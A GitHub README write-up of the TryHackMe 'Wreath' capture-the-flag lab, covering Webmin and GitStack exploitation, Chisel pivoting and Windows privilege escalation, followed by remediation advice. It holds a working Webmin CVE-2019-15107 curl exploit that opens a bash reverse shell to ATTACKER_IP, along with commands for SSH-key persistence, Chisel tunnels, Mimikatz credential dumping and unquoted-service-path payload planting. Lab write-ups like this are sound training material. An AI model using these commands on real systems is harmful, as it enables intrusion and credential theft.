

# Wreath — Multi-Host Network Pivoting & Red Team Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (DOCX)](./Wreath_TryHackMe_Report_EN.docx)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Network** | Wreath (TryHackMe) — 3 Multi-OS Hosts |
| **Host 1 (Public Gateway)** | CentOS Linux (Webmin Server) — `10.200.x.200` |
| **Host 2 (Internal Web/Dev)** | Windows Server (GitStack) — `10.200.x.150` |
| **Host 3 (Internal Workstation)** | Windows Workstation (PC-Doctor / Unquoted Path) — `10.200.x.100` |
| **Difficulty** | Hard |
| **Key Concepts** | Multi-hop Pivoting, SOCKS Proxies, Chisel Tunneling, Webmin RCE (CVE-2019-15107), GitStack Exploitation, Mimikatz / LSASS Dumping, Windows Service Escalation |
| **Final Result** | Full Network Compromise (Root & Domain-Level SYSTEM Access) |

---

## 🎯 Network Architecture & Attack Graph



---

## 🔍 Compromised Hosts Summary

| Host | IP | Operating System | Initial Exploit Vector | Final Privilege |
| :--- | :--- | :--- | :--- | :--- |
| **Host 1** | `10.200.x.200` | CentOS Linux | CVE-2019-15107 (Webmin unauthenticated RCE) | `root` |
| **Host 2** | `10.200.x.150` | Windows Server | GitStack 2.3.10 Unauthenticated RCE | `NT AUTHORITY\SYSTEM` |
| **Host 3** | `10.200.x.100` | Windows Workstation | Harvested Credentials (Evil-WinRM) + Service Escalation | `NT AUTHORITY\SYSTEM` |

---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Host 1 Compromise (CentOS Webmin)

1. **Reconnaissance:**
   ```bash
   nmap -sV -sC -p- -T4 10.200.x.200
   ```
   Open ports: `22/tcp` (SSH), `80/tcp` (Apache), `443/tcp` (HTTPS), `10000/tcp` (MiniServ / Webmin 1.890).
2. **Exploiting CVE-2019-15107:**
   Webmin 1.890 contains an unauthenticated parameter injection in `password_change.cgi`:
   ```bash
   curl -k -X POST "https://10.200.x.200:10000/password_change.cgi"      -H "Referer: https://10.200.x.200:10000/"      -d "user=root&pam=1&expired=2|bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"
   ```
   Listener receives a root shell on Host 1!

### Phase 2: Pivoting from Host 1 to Internal Network

1. Add your SSH public key to Host 1's `/root/.ssh/authorized_keys` for reliable persistence.
2. Transfer and execute **Chisel** on Host 1:
   On Attacker:
   ```bash
   chisel server -p 8000 --reverse
   ```
   On Host 1:
   ```bash
   ./chisel client ATTACKER_IP:8000 R:socks
   ```
3. Configure `/etc/proxychains4.conf`:
   ```text
   socks5 127.0.0.1 1080
   ```
4. Scan the internal network through Proxychains:
   ```bash
   proxychains nmap -sT -Pn -p 80,445,3389 10.200.x.150
   ```

### Phase 3: Host 2 Compromise (Windows GitStack)

1. Scanning reveals port 80 running **GitStack 2.3.10**.
2. Exploiting GitStack unauthenticated RCE via repository creation and web shell upload (`rest/user.php`).
3. Trigger reverse shell through the Chisel tunnel to obtain access as `NT AUTHORITY\SYSTEM`.
4. **Credential Harvesting:** Execute Mimikatz to dump credentials from memory:
   ```powershell
   privilege::debug
   sekurlsa::logonpasswords
   ```
   Recover plaintext credentials and NTLM hashes for user `Administrator` and `Thomas`.

### Phase 4: Host 3 Pivoting & Full Compromise

1. Establish a port forward from Host 2 to reach Host 3 (`10.200.x.100`) on WinRM port 5985.
2. Connect to Host 3 using **Evil-WinRM** with Thomas's harvested credentials:
   ```bash
   proxychains evil-winrm -i 10.200.x.100 -u Thomas -p <PASSWORD>
   ```
3. **Privilege Escalation on Host 3:**
   Inspect installed third-party services:
   ```cmd
   wmic service get name,displayname,pathname,startmode | findstr /i "auto"
   ```
   A vulnerable third-party monitoring service (SystemScheduler / PC-Doctor) has an unquoted service path with write permissions in the parent directory:
   * Path: `C:\Program Files (x86)\System Application\Service.exe`
4. Plant a compiled reverse shell payload named `System.exe` in `C:\Program Files (x86)\`.
5. Restart the service or reboot the workstation:
   ```cmd
   sc stop "VulnerableService"
   sc start "VulnerableService"
   ```
6. The service executes `System.exe`, granting full `NT AUTHORITY\SYSTEM` access on Host 3!

---

## 🛡️ Remediation & Defensive Recommendations

1. **Patch Webmin & GitStack:** Upgrade Webmin beyond 1.930 and replace obsolete GitStack installations.
2. **Implement Network Segmentation:** Prohibit multi-hop lateral movement by enforcing strict egress and ingress firewall ACLs between public-facing and internal subnet tiers.
3. **Protect LSASS & Restrict Admin Reuse:** Enable LSA Protection (RunAsPPL) and eliminate password reuse across administrator accounts on different workstations.
4. **Quote All Service Paths:** Audit Windows service registry paths to ensure all paths containing spaces are enclosed in quotation marks.
